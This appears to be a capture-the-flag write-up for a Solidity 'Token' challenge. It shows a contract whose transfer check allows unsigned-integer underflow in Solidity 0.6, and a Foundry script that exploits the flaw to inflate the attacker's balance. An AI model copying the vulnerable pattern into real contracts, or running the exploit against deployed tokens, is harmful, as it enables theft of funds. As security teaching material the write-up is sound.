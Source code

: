### Challenge Code

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

This contract is vulnerable to arithmetic underflow in Solidity 0.6. If you try to transfer more tokens than you have, the subtraction `balances[msg.sender] - _value` wraps around to a huge number (since it’s a `uint`). That gives you an enormous balance instead of failing.

### Script

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Token.sol";

contract TokenSolution is Script {
    Token public tokenInstance = Token(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        tokenInstance.transfer(address(0), 21);
        uint256 balance = tokenInstance.balanceOf(vm.envAddress("MY_ADDRESS"));
        console.log("Attacker balance:", balance);
        vm.stopBroadcast();
    }
}
```
